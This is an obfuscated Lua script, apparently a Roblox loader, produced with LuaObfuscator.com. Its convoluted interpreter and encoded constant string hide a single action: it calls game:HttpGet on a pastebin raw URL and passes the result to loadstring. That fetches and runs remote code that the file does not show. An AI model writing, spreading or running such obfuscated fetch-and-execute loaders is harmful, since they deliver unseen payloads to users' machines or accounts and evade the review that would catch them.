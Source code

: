 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v80=0;while true do if (v80==0) then v19=v0(v3(v30,1,1));return "";end end else local v81=v2(v0(v30,16));if v19 then local v88=0;local v89;while true do if (v88==0) then v89=v5(v81,v19);v19=nil;v88=1;end if (v88==1) then return v89;end end else return v81;end end end);local function v20(v31,v32,v33) if v33 then local v82=(v31/((5 -3)^(v32-1)))%(2^(((v33-(2 -(1 + 0))) -(v32-(1 -0))) + (2 -(878 -(282 + 595))))) ;return v82-(v82%(620 -(555 + 64))) ;else local v83=0;local v84;while true do if (v83==(931 -(857 + 74))) then v84=(570 -(367 + (1838 -(1523 + 114))))^(v32-(928 -(214 + 713))) ;return (((v31%(v84 + v84))>=v84) and 1) or (0 + 0) ;end end end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35=0;local v36;local v37;while true do if (v35==(1 + 0)) then return (v37 * 256) + v36 ;end if (v35==(0 -0)) then v36,v37=v1(v16,v18,v18 + (1067 -(68 + 997)) );v18=v18 + (1272 -(226 + 1044)) ;v35=4 -3 ;end end end local function v23() local v38,v39,v40,v41=v1(v16,v18,v18 + (120 -(32 + 85)) );v18=v18 + 4 + 0 ;return (v41 * 16777216) + (v40 * (14533 + 51003)) + (v39 * 256) + v38 ;end local function v24() local v42=v23();local v43=v23();local v44=(1388 -(44 + 386)) -(892 + 65) ;local v45=(v20(v43,1 + 0 ,26 -6 ) * (((1490 -(998 + 488)) -2)^(58 -26))) + v42 ;local v46=v20(v43,1208 -(340 + 729 + 118) ,56 -25 );local v47=((v20(v43,382 -(87 + 263) )==(181 -(67 + 113))) and  -(1 + 0)) or (2 -(1 + 0)) ;if (v46==(0 + 0)) then if (v45==(0 -(772 -(201 + 571)))) then return v47 * (952 -((1940 -(116 + 1022)) + 150)) ;else v46=2 -1 ;v44=0 -0 ;end elseif (v46==(7874 -5827)) then return ((v45==(0 + 0)) and (v47 * (1/(997 -((3809 -2894) + 82))))) or (v47 * NaN) ;end return v8(v47,v46-(440 + 583) ) * (v44 + (v45/((5 -3)^((288 + 202) -(145 + 293))))) ;end local function v25(v48) local v49=0 -(0 + 0) ;local v50;local v51;while true do if ((3 -2)==v49) then v50=v3(v16,v18,(v18 + v48) -(860 -((2802 -1988) + 45)) );v18=v18 + v48 ;v49=(1751 -(760 + 987)) -2 ;end if (v49==((1914 -(1789 + 124)) + 1)) then v51={};for v90=1 + 0 , #v50 do v51[v90]=v2(v1(v3(v50,v90,v90)));end v49=888 -(261 + 624) ;end if (v49==(4 -1)) then return v6(v51);end if ((1080 -(1020 + 60))==v49) then v50=nil;if  not v48 then local v96=1423 -((1396 -(745 + 21)) + 273 + 520) ;while true do if ((0 -0)==v96) then v48=v23();if (v48==0) then return "";end break;end end end v49=4 -3 ;end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 0;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();while true do local v65=(function() return 1551 -(226 + 1325) ;end)();while true do if (v65==(1 + 0)) then if (v52==(1 + 1)) then for v101= #"!",v23() do local v102=(function() return v21();end)();if (v20(v102, #":", #"<")==(0 + 0)) then local v126=(function() return 0;end)();local v127=(function() return;end)();local v128=(function() return;end)();local v129=(function() return;end)();local v130=(function() return;end)();while true do if (v126~=(1 + 1)) then else while true do if (v127==(2 + 0)) then local v169=(function() return 0 -0 ;end)();while true do if ((1 + 0)==v169) then v127=(function() return  #"nil";end)();break;end if (v169==(0 -0)) then if (v20(v129, #":", #"]")~= #"[") then else v130[1 + 1 ]=(function() return v58[v130[1638 -(1373 + 263) ]];end)();end if (v20(v129,1002 -(451 + 549) ,1 + 1 )~= #"{") then else v130[ #"19("]=(function() return v58[v130[ #"xxx"]];end)();end v169=(function() return 1770 -(1749 + 20) ;end)();end end end if (v127== #"}") then local v170=(function() return 0 + 0 ;end)();local v171=(function() return;end)();while true do if (v170~=(0 -0)) then else v171=(function() return 0 -0 ;end)();while true do if ((0 + 0)~=v171) then else v130=(function() return {v22(),v22(),nil,nil};end)();if (v128==(1384 -(746 + 638))) then local v183=(function() return 0 -0 ;end)();local v184=(function() return;end)();while true do if (v183==(0 + 0)) then v184=(function() return 0;end)();while true do if (v184==(0 -0)) then v130[ #"nil"]=(function() return v22();end)();v130[ #"asd1"]=(function() return v22();end)();break;end end break;end end elseif (v128== #"~") then v130[ #"19("]=(function() return v23();end)();elseif (v128==(343 -(218 + 123))) then v130[ #"asd"]=(function() return v23() -(2^(1597 -(1535 + 46))) ;end)();elseif (v128== #"asd") then local v189=(function() return 0;end)();local v190=(function() return;end)();while true do if ((0 + 0)~=v189) then else v190=(function() return 0;end)();while true do if (v190==(0 + 0)) then v130[ #"19("]=(function() return v23() -(2^16) ;end)();v130[ #"http"]=(function() return v22();end)();break;end end break;end end end v171=(function() return 1;end)();end if (v171==(2 -1)) then v127=(function() return 116 -(4 + 110) ;end)();break;end end break;end end end if (v127== #"-19") then if (v20(v129, #"-19", #"gha")== #" ") then v130[ #"xnxx"]=(function() return v58[v130[ #"asd1"]];end)();end v53[v101]=(function() return v130;end)();break;end if (v127~=(560 -(306 + 254))) then else local v173=(function() return 584 -(57 + 527) ;end)();local v174=(function() return;end)();while true do if (0==v173) then v174=(function() return 0 + 0 ;end)();while true do if ((103 -(17 + 86))==v174) then v128=(function() return v20(v102,2 + 0 , #"91(");end)();v129=(function() return v20(v102, #"0836",11 -5 );end)();v174=(function() return 1468 -(899 + 568) ;end)();end if ((1 + 0)==v174) then v127=(function() return  #"/";end)();break;end end break;end end end end break;end if (v126==(0 -0)) then local v156=(function() return 166 -(122 + 44) ;end)();while true do if ((1 -0)~=v156) then else v126=(function() return 3 -2 ;end)();break;end if (v156~=0) then else v127=(function() return 0 -0 ;end)();v128=(function() return nil;end)();v156=(function() return 1 + 0 ;end)();end end end if (v126==1) then local v157=(function() return 603 -(268 + 335) ;end)();while true do if (v157~=(0 -0)) then else v129=(function() return nil;end)();v130=(function() return nil;end)();v157=(function() return 291 -(60 + 230) ;end)();end if (v157~=(573 -(426 + 146))) then else v126=(function() return 67 -(30 + 35) ;end)();break;end end end end end end for v103= #"}",v23() do v54[v103-#">" ]=(function() return v28();end)();end return v56;end break;end if (v65==(0 + 0)) then if (v52== #"|") then local v97=(function() return 1456 -(282 + 1174) ;end)();local v98=(function() return;end)();while true do if (v97==(811 -(569 + 242))) then v98=(function() return 0;end)();while true do if (v98==(2 -1)) then for v164= #"]",v57 do local v165=(function() return 0 -0 ;end)();local v166=(function() return;end)();local v167=(function() return;end)();local v168=(function() return;end)();while true do if (v165~=0) then else v166=(function() return 0;end)();v167=(function() return nil;end)();v165=(function() return 1 + 0 ;end)();end if (v165~=1) then else v168=(function() return nil;end)();while true do if (v166==(0 -0)) then local v178=(function() return 580 -(361 + 219) ;end)();local v179=(function() return;end)();while true do if (v178==(320 -(53 + 267))) then v179=(function() return 0 + 0 ;end)();while true do if (v179~=1) then else v166=(function() return  #"<";end)();break;end if (v179==(1024 -(706 + 318))) then v167=(function() return v21();end)();v168=(function() return nil;end)();v179=(function() return 1;end)();end end break;end end end if (v166~= #" ") then else if (v167== #"]") then v168=(function() return v21()~=(1251 -(721 + 530)) ;end)();elseif (v167==(7 -5)) then v168=(function() return v24();end)();elseif (v167== #"-19") then v168=(function() return v25();end)();end v58[v164]=(function() return v168;end)();break;end end break;end end end v56[ #"nil"]=(function() return v21();end)();v98=(function() return 1273 -(945 + 326) ;end)();end if (v98~=(2 + 0)) then else v52=(function() return 4 -2 ;end)();break;end if (v98==0) then v57=(function() return v23();end)();v58=(function() return {};end)();v98=(function() return 1 + 0 ;end)();end end break;end end end if (v52==0) then local v99=(function() return 700 -(271 + 429) ;end)();local v100=(function() return;end)();while true do if (v99~=0) then else v100=(function() return 0 + 0 ;end)();while true do if (v100==(1502 -(1408 + 92))) then v52=(function() return  #" ";end)();break;end if ((0 + 0)==v100) then v53=(function() return {};end)();v54=(function() return {};end)();v100=(function() return 1;end)();end if ((1087 -(461 + 625))==v100) then v55=(function() return {};end)();v56=(function() return {v53,v54,nil,v55};end)();v100=(function() return 1 + 1 ;end)();end end break;end end end v65=(function() return 1172 -(418 + 753) ;end)();end end end end local function v29(v59,v60,v61) local v62=v59[1];local v63=v59[1 + 1 ];local v64=v59[2 + 1 ];return function(...) local v66=v62;local v67=v63;local v68=v64;local v69=v27;local v70=1 + 0 + 0 ;local v71= -(2 -(1899 -(260 + 1638)));local v72={};local v73={...};local v74=v12("#",...) -1 ;local v75={};local v76={};for v85=1551 -(1126 + (2300 -(157 + 1718))) ,v74 do if (v85>=v68) then v72[v85-v68 ]=v73[v85 + (406 -(118 + 287)) ];else v76[v85]=v73[v85 + 1 ];end end local v77=(v74-v68) + (3 -2) ;local v78;local v79;while true do v78=v66[v70];v79=v78[1];if (v79<=3) then if ((v79<=(1122 -(118 + 1003))) or (796>=3791)) then if ((v79==(0 -0)) or (569>=1591)) then local v105=v78[379 -(142 + 191 + 44) ];local v106=v76[v78[13 -10 ]];v76[v105 + 1 + 0 ]=v106;v76[v105]=v106[v78[981 -(553 + 424) ]];else do return;end end elseif ((v79>(3 -1)) or (4490<=89)) then local v110=0 + 0 ;local v111;local v112;local v113;local v114;local v115;while true do if ((v110==(6 + 0)) or (4983<1808)) then v71=(v113 + v115) -(1 + (440 -(382 + 58))) ;v111=0 -0 ;for v159=v115,v71 do v111=v111 + 1 + 0 ;v76[v159]=v112[v111];end v70=v70 + 1 ;v110=7;end if (v110==(2 + (3 -2))) then v78=v66[v70];v115=v78[4 -2 ];v114=v76[v78[7 -4 ]];v76[v115 + (2 -(1 + 0)) ]=v114;v110=4;end if (v110==(2 + 2)) then v76[v115]=v114[v78[(38 -19) -15 ]];v70=v70 + (754 -(239 + (1527 -1013))) ;v78=v66[v70];v76[v78[1 + (3 -2) ]]=v78[3];v110=5;end if ((3829>3769) and (v110==(1338 -(797 + 532)))) then do return;end break;end if (v110==(4 + 1)) then v70=v70 + (1206 -(902 + 303)) + 0 ;v78=v66[v70];v115=v78[2];v112,v113=v69(v76[v115](v13(v76,v115 + ((3 -1) -1) ,v78[1205 -(373 + 829) ])));v110=737 -(476 + 255) ;end if (v110==((2740 -1602) -(369 + (1779 -(697 + 321))))) then v78=v66[v70];v76[v78[2 + 0 ]]();v70=v70 + (1 -0) ;v78=v66[v70];v110=1 + 8 ;end if (v110==(13 -6)) then v78=v66[v70];v115=v78[240 -(64 + 174) ];v76[v115]=v76[v115](v13(v76,v115 + 1 + (0 -0) ,v71));v70=v70 + (1 -(1690 -(1121 + 569))) ;v110=344 -((358 -(22 + 192)) + 192) ;end if ((1485<=2904) and ((216 -(42 + 174))==v110)) then v111=nil;v112,v113=nil;v114=nil;v115=nil;v110=1 + 0 ;end if (v110==(2 + 0)) then v70=v70 + 1 + 0 ;v78=v66[v70];v76[v78[1506 -(363 + 1141) ]]=v61[v78[1583 -(1183 + 397) ]];v70=v70 + (2 -(684 -(483 + 200))) ;v110=3 + 0 ;end if ((4269==4269) and (v110==(1 + 0))) then v76[v78[1977 -(1913 + (131 -69)) ]]={};v70=v70 + 1 + 0 ;v78=v66[v70];v76[v78[4 -2 ]]=v61[v78[(3 + 4) -4 ]];v110=1935 -(565 + 1368) ;end end else v76[v78[7 -(1468 -(1404 + 59)) ]]=v78[1664 -(1477 + 184) ];end elseif ((387<=2782) and (v79<=((11 -5) -1))) then if (v79>(4 + 0)) then v76[v78[858 -((1511 -947) + 292) ]]=v61[v78[4 -1 ]];else v76[v78[(1232 -(322 + 905)) -(614 -(602 + 9)) ]]={};end elseif ((v79<=6) or (1899<=917)) then local v121=(831 -527) -(244 + (1249 -(449 + 740))) ;local v122;local v123;local v124;local v125;while true do if (v121==(0 + (872 -(826 + 46)))) then v122=v78[478 -(41 + 435) ];v123,v124=v69(v76[v122](v13(v76,v122 + (563 -(334 + 228)) ,v78[3])));v121=1002 -(938 + (1010 -(245 + 702))) ;end if (v121==1) then v71=(v124 + v122) -(1 + (0 -0)) ;v125=1125 -(936 + 189) ;v121=2;end if (v121==(1 + (2 -1))) then for v162=v122,v71 do local v163=1613 -(1565 + 48) ;while true do if ((v163==(0 + 0)) or (4312<=876)) then v125=v125 + (1139 -(782 + 356)) ;v76[v162]=v123[v125];break;end end end break;end end elseif (v79>(274 -(176 + 91))) then local v131=v78[2];v76[v131]=v76[v131](v13(v76,v131 + (2 -1) ,v71));else v76[v78[2 -0 ]]();end v70=v70 + (1093 -(975 + (369 -252))) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F30587A76514A443700094Q00037Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
